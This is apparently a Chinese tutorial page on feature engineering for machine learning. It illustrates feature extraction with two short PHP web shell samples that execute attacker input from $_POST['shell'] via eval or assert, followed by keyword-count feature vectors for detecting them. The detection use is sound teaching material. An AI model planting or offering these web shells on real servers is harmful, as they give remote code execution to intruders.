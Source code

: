 # 特征工程

## 什么是特征工程

特征工程的目标是从原始数据中提取出有用的特征，转变成数学符号，也就是矩阵，以便让机器学习算法更好地理解数据。

<DocsAD/>

<DocsAD/>

<DocsAD/>

## 特征工程步骤

* 提取特征
* 特征清洗
* 特征降维

## 特征工程实例

```php
<?php  
function fun($a){  
    @eval($a);  
}  
@fun($_POST['shell']);  
?>

<?php
$bb="assert";
$a='bb';
$$aa($_POST['shell']);
?>
```

```feature
count(eval)
count(fun)
count($_POST)

str(shell) 0/1

第一个脚本特征：1,2,1,1,1
第二个脚本特征：0,0,1,1,0
```